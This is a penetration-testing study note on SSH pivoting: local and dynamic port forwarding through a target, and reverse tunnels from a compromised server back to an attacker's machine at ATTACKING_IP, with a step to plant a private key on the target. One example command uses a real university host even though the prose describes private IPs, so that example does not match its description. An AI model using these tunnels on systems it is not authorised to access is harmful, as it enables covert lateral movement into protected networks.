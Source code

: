 # Forward Connections

Creating a **forward** (or "_local_") **SSH tunnel** can be done from the attacking box when we have SSH access to the target.

## Port Forwarding : -L switch, which creates a link to a Local port.

* For example, if we had SSH access to 172.16.0.5 and there's a web server running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

```bash
ssh -L 8000:132.227.89.21:80 21108020@ssh.ufr-info-p6.jussieu.fr -fN

-f backgrounds the shell
-N tells SSH that it doesn't need to execute any commands,only set up the fucking connection
```

You can now access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine with `localhost:8000`.

> Good Practice use a high port, out of the way, for the local connection.

## Creating a proxy : -D switch

* For example: -D 1337. This will open up port 1337 on the attacking box as a **proxy** to send data through into the _protected network_.

This is useful when combined with a tool such as **proxychains**. An example of this command would be:

```bash
ssh -D 1337 user@172.16.0.5 -fN
```

***

# Reverse Connections

_Reverse connections_ are very possible with the **SSH client** (and indeed may be preferable if you have **a shell** on the **compromised server**, but not **SSH access**).
**They are, however, riskier** as you inherently must access **your attacking machine from the target** -- be it by using credentials, or preferably a key based system.

Before we can make a reverse connection safely, there are a few steps to take:

```bash
# 1. generate a new set of SSH keys and store them somewhere safe
ssh-keygen

# 2. Copy the contents of the public key, then edit the ~/.ssh/authorized_keys file on your own attacking machine.

# 3. New line, type the following line, then paste in the public key:
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty ssh-public-key

# 4. start the ssh service your the attacking machine
sudo systemctl start ssh

# 5. transfer the private key to the target server

# 6. With the key transferred, connect back with a reverse port forward (on the target server)
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

# or (In newer versions of the SSH client)
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash
ssh -p port -okexAlgorithms=+<algo> user@0.0.0.0

ssh -o StrictHostKeyChecking=no -p 0.0.0.0

ssh -i id_rsa -L localport:127.0.0.1:remoteport user@0.0.0.0

#to get public key from a private key
ssh-keygen -y -e -f keyfile
```
